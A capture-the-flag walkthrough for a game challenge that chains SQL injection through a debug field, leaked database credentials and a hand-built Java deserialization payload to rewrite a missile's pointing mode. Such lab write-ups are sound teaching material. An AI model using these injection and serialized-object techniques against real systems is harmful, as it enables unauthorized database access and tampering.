







# Missile Diversion

**Difficulty**: <i class=twemoji_red>:fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree::fontawesome-solid-tree:</i><br/>
**Direct link**: [NanoSat](https://nanosat.one?&challenge=satmissile&id=48ac723e-c8d7-41be-9170-f7698d9b91da&area=si-zenithsgs&tokens=satmissile)

## Objective

!!! question "Request"
    Thwart Jack's evil plan by re-aiming his missile at the Sun.


## Hints

??? tip "Always Lock Your Computer"
    Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.

## Solution

We aren't done yet. We go back to the NanoSat program and launch the **missile-targeting-system** app and get the following URI to connect to **maltcp://10.1.1.1:1025/missile-targeting-system-Directory**

<figure markdown>
{ width="700"}
</figure>

This Debug option looks interesting so we enable that and also submit the Debug action on the Action Services tab.
Looking at the Published Parameters, we see mention of MariaDB

<figure markdown>
{ width="700"}
</figure>

There has to be a way to interact with that database. Enabling the other Parameters gives us some additional information

<figure markdown>
{ width="700"}
</figure>

Also, if we go back to the Supervisor, App Launcher page, we see the output of the Debug command. Again, to figure out how to interact with it.

<figure markdown>
{ width="700"}
</figure>

As this is a Java application, we take a look at the jar files that are included. We find **missile-targeting-system-2.1.0-SNAPSHOT.jar** and we load that into a decomplier, such as [JD-Gui](http://java-decompiler.github.io/)

Here we find a Debug() function: 

```java
  private String sqlDebug(String injection) {
    String query = "SELECT VERSION()" + injection;
    StringBuilder resultString = new StringBuilder();
    try {
      Connection connection = DriverManager.getConnection("jdbc:mariadb://localhost:3306/missile_targeting_system?allowMultiQueries=true", "targeter", "cu3xmzp9tzpi00bdqvxq");
      try {
        Statement statement = connection.createStatement();
        try {
          boolean hasResultSet = statement.execute(query);
```
We recognize the results of the VERSION() command, but we are concatenating that **inection** variable. So we should be able to add commands by starting with the ";" character, so the command would end up being "SELECT VERSION(); DATABASE()" for example. There's certainly a lot we could potentially do here, depending on the rights of the user running MariaDB. 
We also have a username and password in the event we find a way to connect directly.

We also have this GetMode() function

```java
  private String sqlGetMode() {
    String str_val = "Unknown";
    try {
      Connection connection = DriverManager.getConnection("jdbc:mariadb://localhost:3306/missile_targeting_system", "targeter", "cu3xmzp9tzpi00bdqvxq");
      try {
        String query = "SELECT numerical_mode FROM pointing_mode";
        int int_val = -1;
        PreparedStatement preparedStatement = connection.prepareStatement(query);
        try {
          ResultSet resultSet = preparedStatement.executeQuery();
          try {
            if (resultSet.next())
              int_val = resultSet.getInt("numerical_mode"); 
            if (resultSet != null)
              resultSet.close(); 
//
        } 
        query = "SELECT str_mode FROM pointing_mode_to_str WHERE numerical_mode = " + int_val;
        preparedStatement = connection.prepareStatement(query);
        try {
          ResultSet resultSet = preparedStatement.executeQuery();
          try {
            if (resultSet.next())
              str_val = resultSet.getString("str_mode"); 
            if (resultSet != null)
              resultSet.close(); 
//
```
We have some table names and other information that we should be able to use in querying the database. Back to the Supervisor.

<figure markdown>
{ width="700"}
</figure>

Looking at the Debug Action, we appear to have an attribute that we can enter a string into. Let's see what happens if we enter "; SELECT DATABASE()"

<figure markdown>
{ width="700"}
</figure>

Ok, we have a way to enter commands and get informatoin back. Time to start working on enumerating and see what we have

The pointing_mode and pointing_mode_to_str are relatd to the GetMode() function. Looks like we need to update the pointing_mode table to move from Earth to Sun
```sql
;SELECT * FROM pointing_mode;
d: 1 | numerical_mode: 0 | 

;SELECT * FROM pointing_mode_to_str;
id: 1 | numerical_mode: 0 | str_mode: Earth Point Mode | str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth. | 
id: 2 | numerical_mode: 1 | str_mode: Sun Point Mode | str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. | 
```

```sql
;SHOW GRANTS for 'targeter';
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```
As we are connecting as "targeter", it looks like we only have "INSERT" rights on the sattelite_query table

```sql
;SELECT * FROM satellite_query;
jid: 1 | object: ?? .... | results: import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    ...
```
And this is interesting for the sattelite_query table. I wasn't able to copy the object, but the results looks like a java function.

```java
 import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
```
This function looks like it would either run a command on a database, or get a file from the local filesystem. 
Also, we see refernces to Serialization functions. Let's get the object as hex so we can take a closer look.

```sql
;SELECT HEX(object) from satellite_query;
HEX(object): ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661
```
We can use [SerializatoinDumper](https://github.com/NickstaDB/SerializationDumper) to deserialize this

```
$ java -jar SerializationDumper-v1.13.jar ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B787000007400292F6F70742F536174656C6C697465517565727946696C65466F6C6465725574696C6974792E6A617661

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 31 - 0x00 1f
        Value - SatelliteQueryFileFolderUtility - 0x536174656c6c697465517565727946696c65466f6c6465725574696c697479
      serialVersionUID - 0x12 d4 f6 8d 0e b3 92 cb
      newHandle 0x00 7e 00 00
      classDescFlags - 0x02 - SC_SERIALIZABLE
      fieldCount - 3 - 0x00 03
      Fields
        0:
          Boolean - Z - 0x5a
          fieldName
            Length - 7 - 0x00 07
            Value - isQuery - 0x69735175657279
        1:
          Boolean - Z - 0x5a
          fieldName
            Length - 8 - 0x00 08
            Value - isUpdate - 0x6973557064617465
        2:
          Object - L - 0x4c
          fieldName
            Length - 15 - 0x00 0f
            Value - pathOrStatement - 0x706174684f7253746174656d656e74
          className1
            TC_STRING - 0x74
              newHandle 0x00 7e 00 01
              Length - 18 - 0x00 12
              Value - Ljava/lang/String; - 0x4c6a6176612f6c616e672f537472696e673b
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 02
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)false - 0x00
          isUpdate
            (boolean)false - 0x00
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 41 - 0x00 29
                Value - /opt/SatelliteQueryFileFolderUtility.java - 0x2f6f70742f536174656c6c697465517565727946696c65466f6c6465725574696c6974792e6a617661
```

We have serailized data being inserted into the Object field of the satellite_query table. This data is being input as variables into the atelliteQueryFileFolderUtility() function, and the results are saved to the results column. In this case, it read it's own java file and put it in the results column for us to see. 
Probably shouldn't do that in production.

So, we need to put our own variables in to UPDATE the pointing_mode.numerical_mode value to point to the Sun rather than the earth. So we modify the variables and upate the hex and length values accordingly.

```
    classdata
      SatelliteQueryFileFolderUtility
        values
          isQuery
            (boolean)true - 0x01
          isUpdate
            (boolean)true - 0x01
          pathOrStatement
            (object)
              TC_STRING - 0x74
                newHandle 0x00 7e 00 03
                Length - 43 - 0x00 2b
                Value - UPDATE pointing_mode SET numerical_mode = 1 - 0x55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031
```
Save it to a file, serialize it, and convert it to hex

```
$ java -jar SerializationDumper-v1.13.jar -b update update.bin
Rebuilding serialization stream from dump: update
Stream rebuilt, attempting to parse...
Done, rebuilt stream written to update.bin
$ xxd -ps update.bin 
aced00057372001f536174656c6c697465517565727946696c65466f6c64
65725574696c69747912d4f68d0eb392cb0200035a000769735175657279
5a000869735570646174654c000f706174684f7253746174656d656e7474
00124c6a6176612f6c616e672f537472696e673b7870010174002b555044
41544520706f696e74696e675f6d6f646520534554206e756d6572696361
6c5f6d6f6465203d2031
```
And now we insert that into the satellite_query table and query the results

```
;INSERT INTO satellite_query (object) VALUES (x'aced00057372001f536174656c6c697465517565727946696c65466f6c6465725574696c69747912d4f68d0eb392cb0200035a0007697351756572795a000869735570646174654c000f706174684f7253746174656d656e747400124c6a6176612f6c616e672f537472696e673b7870010174002b55504441544520706f696e74696e675f6d6f646520534554206e756d65726963616c5f6d6f6465203d2031');

;SELECT results FROM satellite_query;
results: SQL Update completed. | 

```


!!! success "Answer"
    { width="700"}


## Response

!!! quote "Insert Elf Name"
    A... missile... aimed for Santa's sleigh? I had no idea...<br>
    I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!<br>
    Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.<br>
    I'll help you bring Jack to justice...<br>
    But my mission to ensure Santa never again compromises the holidays is still in progress.<br>
    It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.<br>
    Use the door to the right to return to the resort lobby and see what happened!<br>
    Don't worry, I'll meet you there... trust me.<br>
